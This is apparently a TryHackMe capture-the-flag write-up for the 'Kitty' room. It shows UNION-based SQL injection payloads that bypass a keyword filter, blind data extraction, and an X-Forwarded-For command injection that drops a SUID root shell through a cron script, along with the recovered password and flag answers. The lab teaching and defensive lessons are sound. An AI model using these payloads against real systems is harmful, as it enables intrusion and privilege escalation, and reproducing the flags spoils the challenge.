

| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|Kitty ||

Kitty is a medium-rated box that starts with a login form behind a hand-rolled SQL injection "WAF" and ends at root through a cron job that trusts an HTTP header. It is a tidy lesson in two things: a blacklist filter is not a prepared statement, and anything a privileged script reads from a web-writable file is attacker input. If you want the pure injection practice that leads into this, [Injectics](/post/thm-room-injectics/) chains a filtered SQLi into template RCE, and [Advanced SQL Injection](/post/thm-room-advancedsqlinjection/) drills the evasion tricks the filter here tries to stop.

Everything below runs from the Mac over the TryHackMe VPN. The target was directly reachable, so no AttackBox was needed.

## Task 1: recon

A quick service scan shows only SSH and an Apache site.

```bash
nmap -sT -Pn -p22,80 -sV 10.80.185.161
  # 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
  # 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Port 80 is a PHP login page (`User Login`, posts to `/index.php`) with a `register.php` signup. `gobuster` finds nothing beyond `index.php`, `register.php`, `welcome.php`, `logout.php` and an empty `config.php`, so the entire attack surface is the login form. SSH being open is a strong hint that the web app will hand over a credential.

## Task 1: the SQLi filter, and why UNION walks through it

A classic auth-bypass attempt gets slapped down:

```bash
curl -s -d "username=admin' or 1=1-- -&password=x" http://10.80.185.161/index.php
  # SQL Injection detected. This incident will be logged!
```

So there is a filter. Probing it one keyword at a time shows it is a small blacklist, not a real sanitiser. `sleep` is blocked, `or` with a following comparison is blocked, but `union select` sails straight through:

```bash
  # blocked:  a' or '1'='1      a' sleep(0)      a'||sleep(0)
  # allowed:  a' union select 1,2,3     a' and 1=1     a' like
```

Once I had a shell on the box I could read the exact rule from `/var/www/html/index.php`:

```php
$evilwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
// ... then:
$sql = "select * from siteusers where username = '$username' and password = '$password';";
$count = mysqli_num_rows($result);
if($count == 1){ /* logged in */ }
```

Three things fall out of that. The blacklist never mentions `union` or `select`, so UNION injection is wide open. The login succeeds on `count == 1`, a plain row count, with no `password_verify`, so any injected row that returns exactly once logs me in. And `-- -` dodges the `-- [a-z0-9]{4}` rule because a space and a dash are not four alphanumerics.

The table has four columns, so a four-column UNION returns a row and the app redirects to `welcome.php`:

```bash
  # n=4 columns -> 302 to welcome.php (logged in); any other count -> 200 "Invalid"
curl -s -o /dev/null -w "%{redirect_url}\n" \
  -d "username=zzz' UNION SELECT 1,2,3,4-- -&password=x" http://10.80.185.161/index.php
  # http://10.80.185.161/welcome.php
```

That is already an authentication bypass, but `welcome.php` is a static "Hello there" page with nothing to extract, so logging in is not the prize. The prize is that the redirect itself is a perfect boolean oracle.

## Task 1: dumping the database blind

Add a `WHERE` to the UNION and the row only comes back when the condition is true. Redirect to `welcome.php` means true, plain 200 means false:

```bash
  # TRUE  -> redirect to welcome.php
zzz' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE 1=1 LIMIT 1-- -
  # FALSE -> no redirect
zzz' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE 1=2 LIMIT 1-- -
```

With that oracle I wrote a small binary-search extractor (`ASCII(SUBSTRING((<expr>),i,1))` against the 302/200 difference). One filter gotcha matters here: the blacklist also blocks `0x`, so hex literals like `0x7369...` for a table name get rejected. Scoping the queries with `table_schema=database()` instead of a hex-encoded table name avoids it entirely.

```text
version:  8.0.41-0ubuntu0.20.04.1
db:       mywebsite
table:    siteusers
columns:  created_at, id, password, username
```

Dumping `siteusers` gives the credentials in plain text (registration stores passwords unhashed, which is also why the `count == 1` login worked with any value):

```text
kitty : L0ng_Liv3_KittY
```

## Task 1: the user flag over SSH

OpenSSH was open the whole time, and the web password is reused for the system account:

```bash
sshpass -p 'L0ng_Liv3_KittY' ssh kitty@10.80.185.161
  # uid=1000(kitty) gid=1000(kitty) groups=1000(kitty)
cat user.txt
  # THM{31e606998972c3c6baae67bab463b16a}
```

The **user flag is `THM{31e606998972c3c6baae67bab463b16a}`**.



## Task 1: root through an X-Forwarded-For cron injection

`kitty` has no `sudo` rights, but enumeration turns up a root-owned script in `/opt` and a second copy of the web app in `/var/www/development`:

```sh
  # /opt/log_checker.sh  (root)
while read ip; do
  /usr/bin/sh -c "echo $ip >> /root/logged";
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged
```

That `sh -c "echo $ip ..."` with `$ip` unquoted is a command injection waiting for input, and the input comes from `/var/www/development/logged`. The development site (running on `127.0.0.1:8080`, reachable only from the box) writes to that file whenever its own SQLi filter trips:

```php
// /var/www/development/index.php
$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
$ip .= "\n";
file_put_contents("/var/www/development/logged", $ip);
```

So the "logged IP" is simply the attacker-controlled `X-Forwarded-For` header, written verbatim. The chain is: trip the dev-site filter with a malicious `X-Forwarded-For`, that header lands in `logged`, and root's cron runs `log_checker.sh`, which feeds my header straight into `sh -c`. I send one request from the box, with the header carrying a payload that drops a SUID shell:

```bash
curl -s -H 'X-Forwarded-For: 1.2.3.4; cp /bin/bash /tmp/rootbash; chmod 6777 /tmp/rootbash;' \
  -d 'username=x or x&password=y' http://127.0.0.1:8080/index.php
```

(`x or x` contains the ` or ` that trips the filter, so the header gets logged.) Within about 30 seconds the cron fires:

```bash
ls -la /tmp/rootbash
  # -rwsrwsrwx 1 root root 1183448 /tmp/rootbash
/tmp/rootbash -p -c 'id; cat /root/root.txt'
  # uid=1000(kitty) euid=0(root)
  # THM{581bfc26b53f2e167a05613eecf039bb}
```

The **root flag is `THM{581bfc26b53f2e167a05613eecf039bb}`**.



## Why this chain matters

On a real engagement the Kitty login is the shape of bug that gets a blacklist WAF marked "remediated" while the app stays wide open. The lesson maps straight to live targets: a keyword filter is a speed bump, not a fix. When a boolean payload is blocked, UNION often is not; when `sleep` is blocked, a heavy subquery or a different oracle still leaks data; when hex is blocked, `database()`-scoped queries sidestep it. The only real fix is a parameterised query, which makes the whole blacklist irrelevant.

The privesc is the more transferable half. A root process that reads a file a lower-privileged service can write is a trust boundary crossing, and HTTP headers like `X-Forwarded-For` are attacker input no matter how much they look like infrastructure metadata. Logging one into a shell command is the same class of bug as logging a `User-Agent` into a template or an eval. Quote your variables, and never let a privileged consumer trust a web-writable queue.

## Takeaways

Two habits carry past this room. First, when a login WAF blocks you, enumerate the blacklist one keyword at a time before assuming the parameter is safe. The gap here (`union`, `and`, `like` all allowed) was findable in ten requests, and a 302-versus-200 redirect is a clean blind oracle even when nothing is reflected on the page. Second, in privesc, follow the data into every privileged process: a cron job or service is only as trustworthy as the least-privileged thing that can write its input, and a web server writing an HTTP header into a root-run script is a direct line from the internet to `root`.

Room solved 100%: 2 tasks, 3 answers.
